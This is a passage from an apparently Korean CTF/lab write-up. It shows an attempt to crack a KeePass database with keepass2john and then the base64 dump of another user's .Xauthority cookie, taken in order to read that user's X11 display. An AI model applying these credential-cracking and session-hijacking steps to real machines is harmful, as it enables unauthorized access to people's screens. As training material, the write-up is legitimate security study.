```bash
```
tree의 결과로 보면 ```Passwords.kdbx``` 파일이 존재합니다. 키패스 라는 소프트웨어에서 사용하는 데이터베이스 파일로 보입니다. 구글링 결과 johntheripper를 통해서 크래킹 시도가 가능할 것으로 보여서 시도해 보았습니다.

```bash
$ keepass2john Passwords.kdbx >> Keepasshash.txt
 Passwords.kdbx : File version '40000' is currently not supported!
```

해당 메시지 내용을 구글링 해보니, 현재 johntheripper는 keepass 3.1까지만 지원하여 크래킹 시도가 불가능 할 것으로 보입니다. 

![image](https://user-images.githubusercontent.com/33647663/218153923-19a1d17b-57f9-4c22-b241-5ee668f6d085.png)


```bash
$ ls -al
total 68
drwxr-xr-x 14 user1001 user1001 4096 Feb 10 10:20 .
drwxr-xr-x  4 root     root     4096 Feb 10 11:21 ..
lrwxrwxrwx  1 root     root        9 Oct 20 09:24 .bash_history -> /dev/null
drwx------ 11 user1001 user1001 4096 Oct 21 10:57 .cache
drwx------ 12 user1001 user1001 4096 Oct 21 10:57 .config
drwxr-xr-x  2 user1001 user1001 4096 Oct 21 10:57 Desktop
drwxr-xr-x  2 user1001 user1001 4096 Oct 21 10:57 Documents
drwxr-xr-x  2 user1001 user1001 4096 Oct 21 10:57 Downloads
drwx------  3 user1001 user1001 4096 Oct 21 10:57 .gnupg
drwx------  3 user1001 user1001 4096 Oct 21 10:57 .local
drwxr-xr-x  2 user1001 user1001 4096 Oct 21 10:57 Music
drwxr-xr-x  2 user1001 user1001 4096 Oct 21 10:57 Pictures
drwxr-xr-x  2 user1001 user1001 4096 Oct 21 10:57 Public
drwxr-xr-x  2 user1001 user1001 4096 Oct 21 10:57 Templates
drwxr-xr-x  2 user1001 user1001 4096 Oct 21 10:57 Videos
lrwxrwxrwx  1 root     root        9 Oct 21 09:07 .viminfo -> /dev/null
-rw-------  1 user1001 user1001   57 Feb 10 10:20 .Xauthority
-rw-------  1 user1001 user1001 2475 Feb 10 10:20 .xsession-errors
-rw-------  1 user1001 user1001 2475 Dec 27 10:33 .xsession-errors.old
```

다시 다른 접근법을 찾아보니, .Xauthority 파일이 눈에 띕니다. X11을 이용하면 원격 디스플레이에 접근이 가능합니다. 따라서 이를 이용하여 접근 가능한 디스플레이에 접근을 시도해 봅니다.

우선 현재 /home/ross 폴더에서의 .Xauthority 파일이므로 ross 계정이 접속하여 있고, X윈도우 환경으로 화면을 보고 있다면 이 파일을 통해서 해당 계정의 디스플레이로 접근이 가능합니다.

획득한 쉘에서 w 명령어로 확인해보면 다음과 같이 ross 계정이 접속하여 있음을 알 수 있습니다.

![image](https://user-images.githubusercontent.com/33647663/218155721-b0850374-5da7-4dfd-8af6-f3376d17da1d.png)


다음의 과정을 통해서 .Xauthority 인증을 하고, 화면 정보를 읽어올 수 있습니다.


```bash
# in kali machine
$ cat .Xauthority | base64
AQAADHNxdWFzaGVkLmh0YgABMAASTUlULU1BR0lDLUNPT0tJRS0xABDdylLf287BoiIFuDv67apd
```
